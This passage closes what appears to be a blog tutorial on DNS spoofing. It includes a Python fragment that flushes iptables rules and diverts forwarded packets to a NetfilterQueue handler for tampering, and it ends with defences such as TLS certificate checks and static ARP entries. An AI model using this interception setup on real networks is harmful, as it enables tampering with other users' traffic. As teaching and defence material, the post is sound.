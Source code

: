 ```python
if __name__ == '__main__':

    os.system("sudo iptables --flush")
    os.system("sudo iptables -I FORWARD -j NFQUEUE --queue-num {}".format(QUEUE_ID))
    queue = netfilterqueue.NetfilterQueue()
    queue.bind(int(QUEUE_ID), process_packet)

    try:
        while True:
            queue.run()
    except KeyboardInterrupt:
        print("\n[-] Exiting program")

```
## Video

<div style="padding-top: 5px; padding-bottom: 5px; position:relative; display:block; width: 100%; min-height:400px">
<iframe width="100%" height="400px" src="https://minio-api.thekor.eu/chirpy-videos-f1492f08-f236-4a55-afb7-70ded209cb28/chirpy/dns%20spoof2.mp4" title="YouTube video player" frameborder="0" allow="accelerometer; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>
</div>

## Conclusion
This attack can be easily thwarted by either using modern browsers that verify the TLS certificates and detect this type of attack or by modifying your ip_tables to lock down your ARP table. Example below for the linux implementation:


```console
    waz@localhost:$ arp -s 192.168.0.65 00:50:ba:85:85:ca
```
I found some interesting CISCO router configuration as well that allows us to lock down your gateway's MAC address [here](https://www.freeccnaworkbook.com/workbooks/ccna/configuring-a-static-arp-entry)


Thanks for reading this far

See you in the next one